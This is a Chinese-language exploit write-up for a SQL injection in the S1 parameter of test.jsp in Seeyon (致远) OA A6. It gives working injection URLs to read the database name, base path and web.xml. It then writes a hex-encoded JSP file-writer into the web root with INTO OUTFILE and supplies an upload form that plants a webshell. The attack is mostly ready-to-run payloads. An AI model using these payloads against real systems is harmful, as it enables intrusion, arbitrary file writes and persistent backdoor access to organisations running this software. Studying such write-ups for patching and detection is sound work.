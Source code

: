 致远OA A6 test.jsp sql注入漏洞
==============================

一、漏洞简介
------------

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

注入点为S1变量，通过探测，发现是mysql数据库

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=

于是构造注入语句查询数据库名：

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())

![](./.resource/致远OAA6test.jspsql注入漏洞/media/rId24.png)

Mysql注入中，我们使用into outfile
来写入数据，用此方法注入webshell，前提条件两个：

-   1：root权限

-   2：物理路径

我们探测一下web根目录

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)

![](./.resource/致远OAA6test.jspsql注入漏洞/media/rId25.png)

通过yyoa目录结构猜测物理路径为

    F:/UFseeyon/OA/tomcat/webapps/yyoa/

可以使用load\_file判断是否正确

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27)

利用mysql into
outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

    <%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27

本地构造上传：

    <html>
        <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
            <textarea name=t cols=120 rows=10 width=45>your code</testarea>
            <input type=submit value="提交">
        </form>
    </html>

上传后获取webshell地址为：<http://www.0-sec.org/yyoa/we1come.jsp>

参考链接
--------

> <https://www.pa55w0rd.online/yyoa/>
